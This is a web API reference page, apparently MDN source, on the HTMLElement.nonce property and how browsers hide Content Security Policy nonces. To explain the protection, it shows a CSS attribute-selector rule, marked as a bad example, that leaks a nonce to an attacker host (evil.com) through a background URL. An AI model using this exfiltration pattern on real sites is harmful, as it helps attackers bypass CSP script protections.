 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
page-type: web-api-instance-property
tags:
  - API
  - Content Security Policy
  - HTML DOM
  - HTMLElement
  - Property
  - Reference
  - nonce
browser-compat: api.HTMLElement.nonce
---
```

{{APIRef("HTML DOM")}}

The **`nonce`** property of the {{DOMxRef("HTMLElement")}} interface returns the cryptographic number used once that is used by [Content Security Policy](/en-US/docs/Web/HTTP/CSP) to determine whether a given fetch will be allowed to proceed.

In later implementations, elements only expose their `nonce` attribute to scripts (and not to side-channels like CSS attribute selectors).

## Examples

### Retrieving a nonce value

In the past, not all browsers supported the `nonce` IDL attribute, so a workaround is to try to use [`getAttribute`](/en-US/docs/Web/API/Element/getAttribute) as a fallback:

```js
let nonce = script['nonce'] || script.getAttribute('nonce');
```

However, recent browsers version hide `nonce` values that are accessed this way (an empty string will be returned). The IDL property (`script['nonce']`) will be the only way to access nonces.

Nonce hiding helps prevent attackers from exfiltrating nonce data via mechanisms that can grab data from content attributes like this:

```css example-bad
script[nonce~=whatever] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Specifications

{{Specifications}}

## Browser compatibility

{{Compat}}

## See also

- [`nonce` global attribute](/en-US/docs/Web/HTML/Global_attributes/nonce)
- [Content Security Policy](/en-US/docs/Web/HTTP/CSP)
- CSP: {{CSP("script-src")}}
